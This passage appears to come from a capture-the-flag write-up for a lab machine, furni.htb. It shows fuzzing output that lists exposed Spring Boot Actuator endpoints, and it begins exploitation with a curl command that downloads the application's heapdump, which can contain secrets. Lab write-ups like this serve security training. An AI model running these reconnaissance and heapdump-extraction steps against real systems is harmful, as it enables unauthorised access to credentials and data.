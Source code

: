```bash
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

actuator/heapdump       [Status: 200, Size: 80165337, Words: 0, Lines: 0, Duration: 0ms]
actuator/info           [Status: 200, Size: 2, Words: 1, Lines: 1, Duration: 632ms]
actuator/refresh        [Status: 405, Size: 114, Words: 3, Lines: 1, Duration: 439ms]
actuator/env/home       [Status: 200, Size: 668, Words: 11, Lines: 1, Duration: 839ms]
actuator                [Status: 200, Size: 2129, Words: 1, Lines: 1, Duration: 962ms]
actuator/caches         [Status: 200, Size: 20, Words: 1, Lines: 1, Duration: 938ms]
actuator/env            [Status: 200, Size: 6307, Words: 94, Lines: 1, Duration: 826ms]
actuator/env/lang       [Status: 200, Size: 668, Words: 11, Lines: 1, Duration: 821ms]
actuator/metrics        [Status: 200, Size: 3356, Words: 1, Lines: 1, Duration: 631ms]
actuator/env/path       [Status: 200, Size: 668, Words: 11, Lines: 1, Duration: 798ms]
actuator/features       [Status: 200, Size: 467, Words: 6, Lines: 1, Duration: 1004ms]
actuator/health         [Status: 200, Size: 15, Words: 1, Lines: 1, Duration: 1309ms]
actuator/scheduledtasks [Status: 200, Size: 54, Words: 1, Lines: 1, Duration: 1007ms]
actuator/mappings       [Status: 200, Size: 35560, Words: 362, Lines: 1, Duration: 1252ms]
actuator/configprops    [Status: 200, Size: 37195, Words: 43, Lines: 1, Duration: 1897ms]
actuator/loggers        [Status: 200, Size: 101592, Words: 1, Lines: 1, Duration: 1186ms]
actuator/conditions     [Status: 200, Size: 184221, Words: 5691, Lines: 1, Duration: 1332ms]
actuator/beans          [Status: 200, Size: 202253, Words: 913, Lines: 1, Duration: 1343ms]
actuator/threaddump     [Status: 200, Size: 1087199, Words: 5, Lines: 1, Duration: 964ms]
```


We got a bunch of stuff on here, if we check information on `/actuator/heapdump`, we can find this:

![](cybersecurity/images/Pasted%2520image%252020250619143745.png)


![](cybersecurity/images/Pasted%2520image%252020250619143822.png)


This article is pretty useful on how to exploit this misconfiguration:

Article: https://www.wiz.io/blog/spring-boot-actuator-misconfigurations#how-can-wiz-help-88

Let's begin exploitation.


# EXPLOITATION
---

Let's get our heapdump first:

```bash
curl http://furni.htb/actuator/heapdump -O heapdump

% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 76.4M  100 76.4M    0     0  1676k      0  0:00:46  0:00:46 --:--:-- 1636k
```
